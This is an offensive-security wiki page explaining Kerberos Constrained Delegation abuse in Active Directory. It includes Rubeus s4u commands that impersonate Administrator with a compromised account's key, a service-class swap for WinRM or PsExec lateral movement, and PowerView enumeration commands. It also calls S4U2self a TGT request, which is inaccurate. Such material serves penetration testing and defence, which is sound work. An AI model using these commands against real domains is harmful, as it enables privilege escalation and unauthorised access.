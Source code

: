 ```yaml
---
label: Constrained Delegation
---
```


# Constrained Delegation Abuse

> **Requirements**
>
> * A compromised service or machine account with Constrained Delegation attribute.

{/*TODO: Can obtained TGS be used only against SPN in msds-allowedToDelegateTo? Or can we select deifferent SPN?*/}

Constrained Delegation is a special attribute (`TRUSTED_TO_AUTH_FOR_DELEGATION`) of a service account or machine account (with an associated SPN). This attribute means that an account with an SPN can use TGS for defined services on behalf of the user who authenticated to the service (example below).

## Correct usage

Example of correct usage (highly simplified):

```plaintext
                               Srv$
                     (  Machine account with  )
                     ( Constrained Delegation )
   User                   |'''''''''''''|
|=======| --------------> | User's TGS  |
               (Auth)     |,,,,,,,,,,,,,|
                                 |
                                 |
                                 |
                              HttpSvc
                     (     Allowed in Srv$      )
                     ( msds-allowedToDelegateTo ) 
                          |'''''''''''''|
                          | Auth using  |
                          | User's TGS  |
                          |,,,,,,,,,,,,,|
```

During authentication to Srv$ machine account (with Constrained Delegation) User's TGS is delegated. Srv$ can use User's TGS to access `HttpSvc` because this service is allowed in Srv$ Constrained Delegation `msds-allowedToDelegateTo` list of services.

## Abuse

An account with Constrained Delegation enabled is allowed to request TGT tickets to itself as any user, in a process known as *S4U2self*. That TGT is then used to request a valid TGS to `msds-allowedToDelegateTo` SPNs. As a result, we (`/user` param) obtain a TGS of another domain user (`/impersonateuser`) which is valid to the target SPN (`/msdsspn`). In addition, the service class in the target SPN (the protocol part) can be changed to any other (`/altservice`).

> **NOTE**: `/altservice` parameter can be used to access other services on the target server and exploit different attack techniques:
>
> * `LDAP` – [DCSync attack](/windows-domain-privesc/from-dc)
> * `HOST,HTTP` – [WinRM lateral movement](/windows-lateral-movement/winrm)
> * `HOST,RPCSS,CIFS` – [PsExec lateral movement](/windows-lateral-movement/)  

```powershell
# Using aes256 of compromised user (RC4 can be used as well)
.\Rubeus.exe s4u /user:$compromised_user /aes256:$compromised_user_aes256 /impersonateuser:$domain_user_to_impersonate /msdsspn:$legit_spn_from_msds_list /altservice:$alternative_service_class /ptt
```

Example:

```powershell
# Example
.\Rubeus.exe s4u /user:MACHINE01$ /aes256:<machine01_aes> /impersonateuser:Administrator /msdsspn:"CIFS/srv01.adlab.local" /altservice:HOST,HTTP /ptt
```

> **HINT**: Instead of `/aes256` use can use `/rc4` parameter and provide RC4/NT hash as well.

Now we should be able to access `srv01.adlab.local` using [WinRM](/windows-lateral-movement/winrm) (`HOST,HTTP` services) as `Administrator` user.

## Enumerate machines and users with Constrained Delegation

PowerView module:

```powershell
Get-DomainUser -TrustedToAuth | select samaccountname, userprincipalname, msds-allowedtodelegateto
Get-DomainComputer -TrustedToAuth | select samaccountname, userprincipalname, msds-allowedtodelegateto
```

## References

* [Ired, *Kerberos Constrained Delegation*](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/abusing-kerberos-constrained-delegation)
* [NotSoShant.io, *Attacking Kerberos: Constrained Delegaton*](https://www.notsoshant.io/blog/attacking-kerberos-constrained-delegation/)
* [Rubeus Tool, *Constrained Delegation*](https://github.com/GhostPack/Rubeus?tab=readme-ov-file#s4u)
* [Orange, *Constrained Delegation Considerations for Lateral Movement*](https://sensepost.com/blog/2022/constrained-delegation-considerations-for-lateral-movement/)
